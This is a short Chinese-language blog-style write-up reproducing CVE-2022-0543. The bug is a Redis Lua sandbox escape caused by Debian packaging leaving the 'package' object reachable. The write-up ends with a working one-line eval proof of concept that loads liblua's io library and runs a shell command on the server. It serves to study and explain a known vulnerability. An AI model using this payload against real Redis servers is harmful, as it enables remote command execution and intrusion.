 # redis-Lua沙盒逃逸rce-CVE-2022-0543

## 前言

从P神的知识星球上看到了，简单复现一下。



## 相关知识

直到现在我才知道redis中可以执行lua脚本。。。

>  Redis embeds the Lua programming language as its scripting engine, which is made available through the **eval** command

常见的就这几个：

- EVAL

- EVALSHA
- SCRIPT LOAD - SCRIPT EXISTS
- SCRIPT FLUSH
- SCRIPT KILL



eval的命令格式：

```lua
EVAL script numkeys key [key …] arg [arg …]
```

![image-20220316213750348](redis-Lua沙盒逃逸rce-CVE-2022-0543.assets/image-20220316213750348.png)

lua的命令执行：

![image-20220316214252719](redis-Lua沙盒逃逸rce-CVE-2022-0543.assets/image-20220316214252719.png)

会报没有io，因为这个lua脚本跑在沙箱中，所以无法命令执行。



但是Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

```shell
# Try and use these Lua modules shipped in Debian...
LUA_LIBS_DEBIAN = cjson bitop

# ... which are not always called their "C" names
LUA_LIBS_DEBIAN_NAMES = cjson bit

# ...

debian/lua_libs_debian.c:
        echo "// Automatically generated; do not edit." >$@
        echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
        set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
                echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
                echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
        done
        echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@
```



通过向lua的上下文中注入了这么个package模块，可以利用这个模块加载任意lua库实现rce。

作者的文章中也说到：

> When the interpreter initialization was performed, the **module** and **require** Lua variables, which are present in the global environment on upstream Lua, but not on Redis' Lua, and would also enable this same attack, were cleared out, but the **package** variable was not. 

实际上注入了`module,require,package`三个，但是前两个都被`cleared out`了：

```c
echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@
```

惟独`package`没有。

## POC

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![image-20220316215433170](redis-Lua沙盒逃逸rce-CVE-2022-0543.assets/image-20220316215433170.png)

## 参考链接

https://wx.zsxq.com/dweb2/index/topic_detail/585221215885284

https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce